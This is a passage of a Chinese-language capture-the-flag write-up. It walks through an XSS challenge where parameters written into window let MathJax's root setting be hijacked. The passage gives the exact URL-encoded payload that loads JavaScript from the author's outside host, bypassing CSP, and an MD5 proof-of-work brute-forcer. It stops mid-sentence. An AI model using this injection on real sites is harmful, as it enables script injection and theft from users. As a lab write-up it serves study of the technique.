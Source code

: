 ![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561294060203b3e33e8161485bd6a0dac79bb0be0-1024x689.png)

可以看到，其对 config 进行解析，首先处理换行，而后对其进行解析 

`-config['name']=value`会被赋值到 window 的config里的 name value。

`-name=value`的会被赋值到 window 的 name，值为 value。

4.那么看看有什么地方读了 window 的，可以看到这里加载了 mathjax  来处理数学公式的显示。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561294390f63abc5b030dd99aea05a2201f05d64b-1024x52.png)

5.点击进去看看源码，搜索 window，还真调用了。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561294467503706735ddbe12b5bbb348bc11cc836-1024x588.png)

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561294467503706735ddbe12b5bbb348bc11cc836.png)

可以看到其在初始化时将 window 里已有的 MathJax 存到自身的 AuthorConfig 里，而后其会读取这个设置，将里面的 root 作为组件的 root 进行设置。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/15612945776ad1fd9664036e82da523ac229e69a4c-1024x146.png)

那么就好办了，我们就构造一个参数，使其从我们的网站上加载我们的 js，这样想做啥都可以了，很棒的是这样加载不受 CSP 之类的限制，美滋滋。

6.构造如下，

http://47.110.128.101/challenge?name=glzjin%3b%0aMathJax%3d%7b”root”%3a”http%3a%2f%2fxss.zhaoj.in%2fmath”%7d

name那里其实为 

```
glzjin;
MathJax={"root":"http://xss.zhaoj.in/math"}
```

这样就达到我们之前想达到的目的了。

7.把这个链接打过去，就可以看到 XSSBOT 加载了什么资源了。

祖传算号器：

```
import string, hashlib

a = string.digits + string.lowercase + string.uppercase
for i in a:
	for j in a:
		for k in a:
			for m in a:
				s = hashlib.md5(i + j + k + m).hexdigest()[0:5]
				if s == "5e86c":
					print(i + j + k + m)
					exit(0)
```

打
